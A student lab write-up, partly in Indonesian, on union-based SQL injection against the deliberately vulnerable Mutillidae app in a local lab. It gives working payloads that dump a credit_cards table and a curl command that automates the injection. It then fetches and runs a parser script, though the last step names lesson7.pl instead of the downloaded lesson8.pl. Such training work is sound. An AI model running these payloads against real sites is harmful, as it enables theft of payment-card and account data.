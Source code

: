 # Lesson 8 : SQL Injection Union Exploit #1

## Start Web Browser Session to Mutillidae
- Buka browser kemudian akses Mutillidae sesuai ip metasploit pada alamat http://10.0.1.100/mutillidae
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/start_browser.png "Home page")

## Go To User Info Page
1. Go to User Info
   - OWASP Top 10 --> A1 - SQL Injection --> SQLi - Extract Data --> User Info 

## Configure Firefox Proxy Settings
1. View Preferences
   - Edit --> Preferences
2. Advanced Settings
   - Pilih Menu Advanced
   - Pilih Network Tabs
   - Pilih Settings
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/network_tab.png "Home page")
3. Connection Settings
   - Gunakan manual proxy
   - Pada kolom HTTP Proxy isikan **127.0.0.1**
   - Pada kolom Port **8080**
   - Centang bagian Use the proxy server for all protocols 
   - Klik Ok, Kemudian Close
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/set_config_proxy.png "Home page")

## Configure Burpsuite Settings
1. Buka Aplikasi Burpsuite
   - Akan muncul halaman aplikasi, pilih next
   - Use Burp defaults, kemudian klik start Burp
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/2/use_default.png "Home page")
2. Configure proxy
   - Pilih tab proxy, kemudian options
   - Set port ke 8080 seperti berikut
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/2/proxy_port_8080.png "Home page")
3. Turn on intercept
   - Pilih tab intercept
   - Pastikan intercept button dalam keadaan off "intercept is off"
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/2/intercept_off.png "Home page")

## SQL Injection (Union Example #1)
1. Inspect the Name Textbox with Firebug
   - Klik kanan pada Textbox Name, kemudian inspect element
2. Change Text Box Size
   - Pada bagian size, tambahkan kapasistasnya dari yg semula 20 menjadi 100
3. First Union SQL Injection Attempt
   - Pada kolom Textbox **Name** isikan **`' union select null -- `**
   - Pastikan anda menambahkan spasi setelah karakter **`--`**
   - Klik tombol View Account Details
4. SQL Error
	- Scroll kebawah untuk melihat pesan errornya
	- Perhatikan pesan errornya
	- Errornya terjadi karena perbedaan jumlah coloumn pada database

## SQL Injection (Union Example #2)
1. Inspect the Name Textbox with Firebug
   - Klik kanan pada Textbox Name, kemudian inspect element
2. Change Text Box Size
   - Pada bagian size, tambahkan kapasistasnya dari yg semula 20 menjadi 100
3. Second Union SQL Injection Attempt
   - Pada kolom Textbox **Name** isikan **`' union select null,null,null,null,null -- `**
   - Pastikan anda menambahkan spasi setelah karakter **`--`**
   - Klik tombol View Account Details
4. Viewing the Results
	- Scroll kebawah untuk melihat pesan errornya
	- Perhatikan pesan errornya

## SQL Injection (Union Example #3)
1. Inspect the Name Textbox with Firebug
   - Klik kanan pada Textbox Name, kemudian inspect element
2. Change Text Box Size
   - Pada bagian size, tambahkan kapasistasnya dari yg semula 20 menjadi 100
3. Second Union SQL Injection Attempt
   - Pada kolom Textbox **Name** isikan **`' union select 1,2,3,4,5 -- `**
   - Pastikan anda menambahkan spasi setelah karakter **`--`**
   - Klik tombol View Account Details
4. Viewing the Results
	- Scroll kebawah untuk melihat hasilnya
	- Perhatikan hasilnya
		- Pada hasilnya, terdapat 1 record ditemukan dengan value seperti berikut:
			- Username=2
			- Password=3
			- Signature=4

## SQL Injection (Union Example #4)
1. Inspect the Name Textbox with Firebug
   - Klik kanan pada Textbox Name, kemudian inspect element
2. Change Text Box Size
   - Pada bagian size, tambahkan kapasistasnya dari yg semula 20 menjadi 100
3. Second Union SQL Injection Attempt
   - Pada kolom Textbox **Name** isikan **`' union select ccid,ccnumber,ccv,expiration,null from credit_cards -- `**
   - Pastikan anda menambahkan spasi setelah karakter **`--`**
   - Klik tombol View Account Details
4. Viewing the Results
	- Scroll kebawah untuk melihat hasilnya
	- Perhatikan hasilnya
	- Pada hasilnya, terdapat 5 record ditemukan

## SQL Injection (Union Example with Curl #5)
1. View Post Data (With Burp Suite)
   - Klik pada Tab Proxy
   - Klik pada Tab History
   - Klik cari line yang urlnya mengandung **/mutillidae/index.php?page=user-info.php** dengan Method GET
   - Klik pada Tab Request
   - Klik pada Tab Raw
   - Highligt text, kemudian klik kanan
   - Klik "Copy to File"
2. Save File
   - Save file di dalam folder **root**
   - File Name: **crack_cookies.txt**
   - Klik tombol Save
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/4/save_burp.png "Home page")
3. Use Curl to Display Usernames and Passwords
   - Buka terminal, jalankan perintah berikut : 
   ```
   curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+union+select+ccid%2Cccnumber%2Cccv%2Cexpiration%2Cnull+from+credit_cards+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://10.0.1.100/mutillidae/index.php" | grep -i "Username=" | awk 'BEGIN{FS="<"}{for (i=1; i<=NF; i++) print $i}' | awk -F\> '{print $2}'
   ```

## Perl Parser
   - Jalankan perintah berikut pada terminal :
   ```
   cd /root
   curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+union+select+ccid%2Cccnumber%2Cccv%2Cexpiration%2Cnull+from+credit_cards+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://10.0.1.100/mutillidae/index.php" | grep -i "Username="  > lesson8.txt
   cat lesson8.txt
   ```

## Download Parser
   - Jalankan perintah berikut pada terminal :
   ```
   cd /root
   wget http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson8/lesson8.pl.TXT
   mv lesson8.pl.TXT lesson8.pl
   chmod 700 lesson8.pl
   ```

## Run Perl Script
   - Jalankan perintah berikut pada terminal :
   ```
   ./lesson7.pl
   ```